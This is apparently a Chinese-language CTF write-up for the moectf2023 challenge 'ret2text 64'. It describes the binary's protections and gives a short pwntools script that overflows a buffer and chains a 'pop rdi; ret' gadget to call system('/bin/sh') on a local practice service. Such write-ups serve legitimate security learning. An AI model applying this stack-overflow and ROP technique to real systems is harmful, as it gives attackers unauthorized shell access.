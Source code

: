 ```yaml
---
title: moectf2023 - ret2text 64
date: 2023/9/23 12:00:00
tags:
    - noob
excerpt: 利用`pop rdi; ret;`漏洞执行`system("/bin/sh")`，完成ctf题目ret2text 64。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了64位~~

## 解题思路

思路跟ret2text 32一致，只要执行`system("/bin/sh")`即可

搜索发现存在`pop rdi; ret;`，只要将字符串弹入rdi后执行system即可  
还要注意栈平衡

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'130')
sh.sendline(b'0'*0x58 + p64(0x04011be) + p64(0x0404050) + p64(0x04012b7)) # Addr of pop rdi & /bin/sh & system
sh.interactive()
```

Done.
